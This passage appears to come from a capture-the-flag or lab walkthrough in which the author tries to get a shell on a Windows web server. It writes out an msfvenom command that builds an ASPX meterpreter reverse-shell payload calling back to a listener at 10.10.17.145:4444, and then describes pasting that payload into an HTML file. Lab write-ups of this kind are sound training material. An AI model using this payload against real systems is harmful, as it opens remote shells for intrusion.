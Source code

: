 
- So, I create aspx reverse shell. (Don't pipe to file in this time)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.145 LPORT=4444 -f aspx
```
![](./IMG/15.png)

- Change the fresh.txt to fresh.html and copy paste the reverse shell code content to body.

![](./IMG/16.png)

- But it only show the content when I try to access it by browser
